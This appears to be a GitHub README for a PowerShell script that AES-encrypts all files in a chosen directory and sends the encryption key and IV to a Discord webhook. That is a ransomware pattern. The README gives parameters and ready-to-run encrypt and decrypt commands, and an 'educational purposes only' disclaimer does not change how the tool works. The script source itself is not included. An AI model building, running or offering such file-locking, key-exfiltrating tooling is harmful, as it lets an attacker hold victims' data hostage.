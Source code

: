 # PowerShell E-D Script README
![](https://img.shields.io/badge/-PowerShell-blue)

## ⚠️ **WARNING: This script is meant for educational purposes ONLY. Misuse of this script may violate laws and regulations. Use it responsibly and at your own risk.** ⚠️

## Overview

This PowerShell script provides a simple mechanism to encrypt or decrypt files using AES encryption. The function `E-D` takes various parameters to encrypt or decrypt files within a given directory.

The script also sends the encryption key and initialization vector (IV) to a Discord webhook, thereby allowing remote access to the decryption key. 

**Note: Transmitting encryption keys over the internet is generally not secure and should not be done in production.**

## Function Parameters

- `-e` : Specifies encryption mode. (Mandatory for encryption)
- `-d` : Specifies decryption mode. (Mandatory for decryption)
- `-p` : Specifies the path where the target files are located. (Mandatory for both encryption and decryption)
- `-wh` : Specifies the Discord webhook URL. (Mandatory for encryption)

## Usage Examples

### To Encrypt:

```PowerShell
E-D -e -p "C:\Users\$env:USERNAME\Documents\test\" -wh "YOUR WEBHOOK HERE"
```

### To Decrypt:

```PowerShell
E-D -d -p "C:\Users\$env:USERNAME\Documents\test\"
```

## Functions Inside the Script

- `SendToDiscord`: Sends a message to the specified Discord webhook.
- `EncryptFile`: Encrypts a given file.
- `DecryptFile`: Decrypts a given file.
